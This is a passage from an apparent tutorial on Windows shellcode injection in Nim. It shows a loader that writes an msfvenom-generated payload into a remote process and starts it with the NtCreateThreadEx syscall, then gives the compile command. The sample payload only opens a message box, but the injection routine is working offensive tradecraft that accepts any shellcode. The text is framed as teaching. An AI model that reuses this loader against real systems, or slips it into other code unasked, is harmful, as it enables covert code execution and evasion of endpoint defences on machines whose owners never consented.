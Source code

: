         sc_size-1, 
        addr bytesWritten);

    echo "[*] WriteProcessMemory: ", status
    echo "    \\-- bytes written: ", bytesWritten
    echo ""

    status = NtCreateThreadEx(
        &tHandle, 
        THREAD_ALL_ACCESS, 
        NULL, 
        pHandle,
        ds, 
        NULL, FALSE, 0, 0, 0, NULL);

    status = NtClose(tHandle)
    status = NtClose(pHandle)

    echo "[*] tHandle: ", tHandle
    echo "[+] Injected"

when defined(windows):

    # https://github.com/nim-lang/Nim/wiki/Consts-defined-by-the-compiler
    when defined(i386):
        echo "[!] This is only for 64-bit use. Exiting..."
        return 

    elif defined(amd64):
        # ./msfvenom -p windows/x64/messagebox -f csharp, then modified for Nim arrays
        echo "[*] Running in x64 process"
        var shellcode: array[295, byte] = [
        byte 0xfc,0x48,0x81,0xe4,0xf0,0xff,0xff,0xff,0xe8,0xd0,0x00,0x00,0x00,0x41,0x51,
        ...
        0x6c,0x6f,0x2c,0x20,0x66,0x72,0x6f,0x6d,0x20,0x4d,0x53,0x46,0x21,0x00,0x4d,
        0x65,0x73,0x73,0x61,0x67,0x65,0x42,0x6f,0x78,0x00]

    # This is essentially the equivalent of 'if __name__ == '__main__' in python
    when isMainModule:
        injectCreateRemoteThread(shellcode)

{% endhighlight %}

Now we can compile this with the following command:

`nim c -d=mingw --app=console --cpu=amd64 SysCallsMessageBoxShellCodeInject.nim`

If you give that a try, you'll likely see the following output:
